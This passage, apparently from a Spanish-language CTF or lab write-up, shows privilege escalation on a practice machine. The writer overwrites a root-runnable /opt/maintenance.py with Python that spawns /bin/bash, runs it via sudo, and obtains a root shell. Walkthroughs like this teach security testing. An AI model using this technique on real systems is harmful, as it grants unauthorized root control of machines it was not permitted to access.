 Vemos que somos el propietario del archivo, así que vamos a cambiar el contenido del script para lanzar una bash como el usuario **root**.
```python
import os
os.system("/usr/bin/python3 -c 'import os; os.system(\"/bin/bash\")'")
```
Una vez modificado el script de python, lo ejecutamos y ya tenemos una bash como **root**.
```
┌──(freddy㉿2742d7ddff34)-[~]
└─$ sudo -u root /usr/bin/python3 /opt/maintenance.py 
┌──(root㉿2742d7ddff34)-[/home/freddy]
└─# whoami
root
```



